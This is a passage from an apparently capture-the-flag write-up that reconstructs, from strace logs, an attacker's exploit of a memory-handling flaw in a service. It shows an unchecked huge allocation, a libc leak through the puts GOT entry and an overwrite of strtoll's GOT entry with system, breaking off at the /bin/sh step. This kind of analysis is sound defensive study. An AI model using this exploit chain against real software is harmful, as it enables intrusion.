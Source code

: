 Goddamnit, there is is, what eluded me for hours, how could I have missed _this!?_  It's plainly obvious to me now what to do (however, let's continue the exploitation--it has a happy ending (for me, not the hacker)).

I'll cover this in more detail in the decompile section, but the short of it is, the attacker put in `281474976710655` (`0xffffffffffff` or 2<sup>48</sup>-1) as the sector size.  Implied by the `Cannot allocate memory` error, the pointer address would have been `null` (`0`), however, the `Sector created!` implies there was no check in the code for this.

With this knowledge in hand, we can attack the server by leaking libc, changing the GOT, etc...

Fuck. Me.

Moving on...


#### Step 3: Leak libc

```
read(0, "2\n", 4096)                    = 2
write(1, "Where do you want to read?", 26) = 26
write(1, "\n", 1)                       = 1
read(0, "6303776\n8\n", 4096)           = 10
write(1, "How much do you want to read?", 29) = 29
write(1, "\n", 1)                       = 1
write(1, "\20\251b\234|\177\0\0", 8)    = 8
```

With unbounded access to the entire 48-bit address space of x86_64 and with No PIE, the first place to look is the GOT.  Above the attacker enters `6303776` (`0x603020`).  And looking that up with `objdump` or `Ghidra` we have the GOT entry for `puts`:

```
                             PTR_puts_00603020 XREF[1]:     puts:00400890  
        00603020 08 40 60        addr       puts
                 00 00 00 
                 00 00
```

The last line above in the trace is the leak being emitted as stdout.  From here it is easy to compute the base of libc.  And since each team is hosting the same services, there's no mystery what version of libc is being used.


#### Step 4: `strtoll` -> `system`

```
read(0, "1\n", 4096)                    = 2
write(1, "Where do you want to write?", 27) = 27
write(1, "\n", 1)                       = 1
read(0, "6303856\n8\n\300\331_\234|\177\0\0\n", 4096) = 19
write(1, "How much do you want to write?", 30) = 30
```

Next our attacker updated the `strtoll` GOT entry (`6303856` -> `0x603070` -> `strtoll`) with location of `system`.


#### Step 5: Pass `/bin/sh` to `system`
